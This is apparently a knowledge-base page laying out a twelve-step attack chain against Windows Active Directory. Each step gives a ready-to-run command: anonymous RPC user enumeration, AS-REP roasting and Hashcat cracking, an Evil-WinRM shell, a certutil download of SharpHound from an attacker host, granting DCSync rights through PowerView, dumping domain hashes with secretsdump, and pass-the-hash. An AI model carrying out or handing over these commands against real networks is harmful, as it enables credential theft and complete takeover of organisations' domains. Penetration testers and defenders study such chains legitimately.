

# Active-Directory-Compromise-via-RPC-Enumeration-AS-REP-Roasting-Hashcat-Cracking-SharpHound-Analysis-and-DCSync

This multi-stage attack chain targets Windows Active Directory environments, starting with reconnaissance to identify open services, enumerating domain users and groups via RPC over SMB, exploiting users with the 'Do not require Kerberos preauthentication' flag through AS-REP roasting to obtain crackable hashes, cracking those hashes offline with Hashcat, gaining initial shell access via WinRM, mapping the AD structure using SharpHound and analyzing attack paths with BloodHound, escalating privileges by adding users to groups and granting DCSync rights via WriteDACL abuse, dumping domain credentials, and finally achieving persistent remote access using pass-the-hash over WinRM. The chain assumes network access to the target domain and focuses on credential access and lateral movement without requiring initial high-privilege credentials.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 12 |
| Execution Time | ~4-8 hours |
| Skill Level | Intermediate-Advanced |
| Complexity | High |
| Impact Level | Critical |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nmap]]
- [[tools/Impacket]]
- [[tools/Hashcat]]
- [[tools/Evil-WinRM]]
- [[tools/SharpHound]]
- [[tools/BloodHound]]

### Target Environment

- Windows Active Directory domain with domain controllers accessible
- Users configured with UF_DONT_REQUIRE_PREAUTH flag
- WinRM service enabled on targets (port 5985)
- Network connectivity to SMB (445), RPC (135), and LDAP ports

### Initial Access Requirements

- Low-privilege network access (no domain creds initially)
- Attacker machine with Kali Linux or equivalent for tools
- Wordlists for username enumeration and password cracking

## Detailed Attack Procedures

### Step 1: Perform Basic Port Scan
procedure: [[procedures/Basic-Port-Scan-with-Service-Enumeration]]

**Objective**: Identify open ports and services on the target domain controller or server to confirm RPC, SMB, and WinRM availability.

**Instructions**: Run an Nmap scan targeting common ports including 135 (RPC), 445 (SMB), and 5985 (WinRM) with service version detection using [[commands/nmap-port-scan-with-banner-enumeration]]:

```bash
nmap -sV -p 135,445,5985 $_TARGET_IP
```

**Expected Output**: List of open ports with service versions, e.g., '135/tcp open msrpc Microsoft Windows RPC'.

**Success Indicators**:
- RPC (135) and SMB (445) confirmed open
- WinRM (5985) detected if enabled

### Step 2: Enumerate Domain Users and Groups via RPC
procedure: [[procedures/List-Domain-Users-and-Groups-via-MS-RPC-over-SMB]]

**Objective**: Connect to the target via SMB and use RPC to list domain users and groups for building a username wordlist.

**Instructions**: Use rpcclient from Impacket to connect anonymously or with null session and enumerate users and groups with [[commands/rpcclient-enumdomusers]] and [[commands/rpcclient-enumdomgroups]]:

```bash
rpcclient -U "" //$_TARGET_IP -c "enumdomusers"
```

Follow with group enumeration:

```bash
rpcclient -U "" //$_TARGET_IP -c "enumdomgroups"
```
Save outputs to files for later use in roasting.

**Expected Output**: Lists of usernames (e.g., Administrator, Guest) and group names (e.g., Domain Admins).

**Success Indicators**:
- Usernames extracted without authentication
- Groups identified for privilege analysis

### Step 3: Brute Force AS-REP Roasting for Preauth-Disabled Users
procedure: [[procedures/Brute-Force-AS-REP-Roasting-for-Users-Without-Preauth]]

**Objective**: Identify valid users with no Kerberos preauth required and request their AS-REP tickets for offline cracking.

**Instructions**: Prepare a username wordlist from Step 2, then use GetNPUsers.py from Impacket with [[commands/getnpusers-py-brute-force-no-preauth]] against the domain controller:

```bash
GetNPUsers.py $_DOMAIN/ -no-pass -usersfile $_USERS_TXT -dc-ip $_DC_IP -request
```
This requests TGTs for valid users, outputting crackable hashes.

**Expected Output**: AS-REP hashes in format like '$krb5asrep$23$username@domain:hash' for valid users.

**Success Indicators**:
- Valid usernames confirmed via error-free responses
- Hashes saved for cracking

### Step 4: Identify Hash Type for Cracking
procedure: [[procedures/Identify-Hash-Type-for-Cracking-with-Hashcat]]

**Objective**: Determine the exact hash format from AS-REP output to select the correct Hashcat mode.

**Instructions**: Review the hash string (e.g., starting with '$krb5asrep$') and cross-reference with Hashcat's example hashes documentation. No command needed; manual identification confirms mode 18200 for Kerberos 5 AS-REP etype 23.

**Expected Output**: Identified as Kerberos AS-REP hash, mode 18200.

**Success Indicators**:
- Hash mode confirmed
- Ready for cracking step

### Step 5: Crack Hashes with Hashcat
procedure: [[procedures/Brute-Force-Password-Hashes-with-Hashcat]]

**Objective**: Offline crack the obtained AS-REP hashes using a wordlist to recover plaintext passwords.

**Instructions**: Run Hashcat in dictionary mode with the identified mode using [[commands/hashcat-brute-force-password-hashes]]:

```bash
hashcat -m 18200 $_HASH_FILE $_WORDLIST.txt
```
Monitor for cracked passwords.

**Expected Output**: Cracked passwords displayed, e.g., 'username:password'.

**Success Indicators**:
- At least one hash cracked
- Valid credentials obtained

### Step 6: Gain Initial Shell via WinRM
procedure: [[procedures/Spawn-Interactive-WinRM-Shell-from-Linux-with-Credentials]]

**Objective**: Use cracked credentials to spawn a PowerShell shell on a target via WinRM.

**Instructions**: Connect using Evil-WinRM with the cracked username and password via [[commands/evil-winrm-rb-connect-with-credentials]]:

```bash
evil-winrm.rb -i $_TARGET_IP -u $_USERNAME -p $_PASSWORD
```

**Expected Output**: Interactive PowerShell prompt, e.g., '*Evil-WinRM* PS C:\Users\>'.

**Success Indicators**:
- Shell access confirmed
- Commands executable on target

### Step 7: Map AD Environment with SharpHound
procedure: [[procedures/Map-Active-Directory-with-SharpHound]]

**Objective**: Collect AD data including users, groups, ACLs, and trusts for analysis.

**Instructions**: Host SharpHound.exe on a web server with [[commands/launch-python3-web-server]]:

```bash
python3 -m http.server 80
```
Download to target with [[commands/download-file-via-certutil]]:

```command_prompt
certutil.exe -urlcache -split -f "http://$_ATTACKER_IP/SharpHound.exe" "C:\temp\SharpHound.exe"
```
Execute on target with [[commands/sharphound-ingest-ad-data]]:

```command_prompt
SharpHound.exe -c All -d $_DOMAIN --ldapusername $_USER --ldappassword $_PASSWORD
```
Exfiltrate the ZIP file.

**Expected Output**: BloodHound-compatible ZIP with JSON data files.

**Success Indicators**:
- ZIP file generated
- Data covers users, groups, ACLs

### Step 8: Analyze AD Relationships with BloodHound
procedure: [[procedures/Analyze-BloodHound-Data-for-AD-Relationships]]

**Objective**: Import SharpHound data and query for attack paths to high-value targets.

**Instructions**: Launch BloodHound, import the ZIP via 'Import Data', then run pre-built queries from the Queries menu to visualize paths (e.g., shortest path to Domain Admins). Review abuse info for edges like ForceChangePassword or GenericAll.

**Expected Output**: Graph visualizations showing relationships and suggested attacks.

**Success Indicators**:
- Data imported successfully
- Attack paths to DA identified

### Step 9: Add User to Domain Group
procedure: [[procedures/Add-User-to-Active-Directory-Domain-Group]]

**Objective**: Use identified privileges to add a controlled user to a sensitive group like Domain Admins.

**Instructions**: Import PowerView.ps1 on the target shell. Create credential if needed with [[commands/create-windows-pscredential-object]]:

```powershell
$Pass = ConvertTo-SecureString -String "$_PASSWORD" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -Argument "$_DOMAIN\$_USER", $Pass
```
Add member with [[commands/powerview-add-domain-group-member]]:

```powershell
Add-DomainGroupMember -Identity '$_GROUP' -Members '$_TARGET_USER' -Credential $Cred
```

**Expected Output**: Confirmation of membership addition.

**Success Indicators**:
- User added to group
- Verified via Get-DomainGroupMember

### Step 10: Grant DCSync Rights via WriteDACL
procedure: [[procedures/Add-DCSync-Rights-via-WriteDACL-Permissions]]

**Objective**: Abuse WriteDACL on domain object to grant DCSync rights for credential dumping.

**Instructions**: With a user having WriteDACL, create credential if needed with [[commands/create-windows-pscredential-object]]. Grant rights with [[commands/powerview-add-dcsync-rights]]:

```powershell
Add-DomainObjectAcl -Rights DCSync -TargetDomain $_DOMAIN -PrincipalIdentity $_USER -Credential $Cred
```

**Expected Output**: ACE added successfully.

**Success Indicators**:
- DCSync rights delegated
- Verified via Get-DomainObjectAcl

### Step 11: Dump Domain Secrets
procedure: [[procedures/Dump-Secrets-from-Remote-System-with-SecretsDump]]

**Objective**: Use DCSync rights or admin creds to dump NTDS.dit hashes from the DC.

**Instructions**: Execute secretsdump.py with DCSync-enabled creds using [[commands/secretsdump-py-dump-remote-hashes]]:

```bash
python3 secretsdump.py $_DOMAIN/$_USER:$_PASSWORD@$_DC_IP -just-dc
```

**Expected Output**: Hashes in format 'username:rid:lmhash:nthash'.

**Success Indicators**:
- NTLM hashes for domain users dumped
- krbtgt hash obtained

### Step 12: Lateral Movement via Pass-the-Hash to WinRM
procedure: [[procedures/Connect-to-WinRM-from-Linux-via-Pass-the-Hash]]

**Objective**: Use dumped NTLM hash for authentication to another target via WinRM without plaintext password.

**Instructions**: Connect using Evil-WinRM with hash via [[commands/evil-winrm-rb-connect-with-ntlm-hash]]:

```bash
evil-winrm.rb -i $_TARGET_IP -u $_USERNAME -H $_NTLM_HASH
```

**Expected Output**: Interactive shell prompt.

**Success Indicators**:
- Access to new target
- Full domain compromise achieved

## Attack Chain Summary

### Key Achievements

- Network services enumerated and RPC users/groups listed
- AS-REP hashes roasted and cracked for initial creds
- AD fully mapped and analyzed for paths
- Privileges escalated via group addition and DCSync
- Domain hashes dumped and pass-the-hash used for persistence

---

*Last updated: 2023-05-29T16:48:53.162677+00:00*
